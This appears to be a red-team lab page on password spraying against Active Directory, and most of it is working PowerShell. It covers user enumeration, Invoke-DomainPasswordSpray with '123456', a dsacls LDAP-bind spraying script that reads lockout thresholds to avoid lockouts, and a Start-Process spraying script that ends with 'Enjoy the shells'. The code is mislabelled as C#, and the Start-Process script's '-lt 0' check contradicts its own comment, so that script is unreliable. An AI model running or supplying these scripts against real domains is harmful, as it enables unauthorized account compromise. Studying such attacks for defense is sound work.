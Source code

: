 ```yaml
---
layout: post
title: "active directory password spraying"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


# Active Directory Password Spraying

This lab explores ways of password spraying against Active Directory accounts.

## Invoke-DomainSpray

{% code title="attacker@victim" %}
```csharp
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 21-29-13.png>)

{% code title="attacker@victim" %}
```csharp
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 21-32-37.png>)

## Spraying using dsacls

While I was poking around with dsacls for enumerating AD object permissions

{% content-ref url="using-dsacls-to-check-ad-object-permissions.md" %}
[using-dsacls-to-check-ad-object-permissions.md](using-dsacls-to-check-ad-object-permissions.md)
{% endcontent-ref %}

I noticed that one could attempt to bind to LDAP using specific AD credentials, so a dirty AD password spraying POC came about:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 00-10-10.png>)

## Spraying with Start-Process

Similarly to dsacls, it's possible to spray passwords with `Start-Process` cmdlet and the help of PowerView's cmdlets:

{% code title="spray-ldap.ps1" %}
```csharp
# will spray only users that currently have 0 bad password attempts
# dependency - powerview

function Get-BadPasswordCount {
    param(
        $username = "username",
        $domain = "offense.local"
    )
    $pdc = (get-netdomain -domain $domain).PdcRoleOwner
    $badPwdCount = (Get-NetUser $username -Domain $domain -DomainController $pdc.name).badpwdcount
    return $badPwdCount
}

$users = Get-netuser -properties samaccountname | Select-Object -ExpandProperty samaccountname
$domain = "offense.local"
$password = "123456"

Write-Host $users.Count users supplied; $users | % {
    $badPasswordCount = Get-BadPasswordCount -username $_ -Domain $domain
    if ($badPasswordCount -lt 0) {
        Write-Host Spraying : -NoNewline; Write-host -ForegroundColor Green " $_"
        $credentials = New-Object System.Management.Automation.PSCredential -ArgumentList @("$domain\$_",(ConvertTo-SecureString -String $password -AsPlainText -Force))
        Start-Process cmd -Credential ($credentials)
    } else {
        Write-Host "Ignoring $_ with $badPasswordCount badPwdCount" -ForegroundColor Red
    }
}
```
{% endcode %}

Enjoy the shells:

![](../../.gitbook/assets/spraying.gif)

## References

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon" %}
@spotheplanet
